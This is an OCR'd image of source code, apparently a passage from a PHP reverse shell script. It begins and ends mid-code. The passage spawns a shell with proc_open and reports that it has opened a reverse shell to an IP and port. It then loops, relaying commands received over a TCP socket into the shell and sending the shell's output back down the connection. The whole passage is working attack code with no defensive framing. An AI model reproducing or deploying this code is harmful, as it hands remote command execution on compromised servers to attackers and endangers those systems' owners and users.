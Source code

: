 ```php
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        // Check for end of STDOUT
        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        // If we can read from the process's STDERR
        // send data down tcp connection
```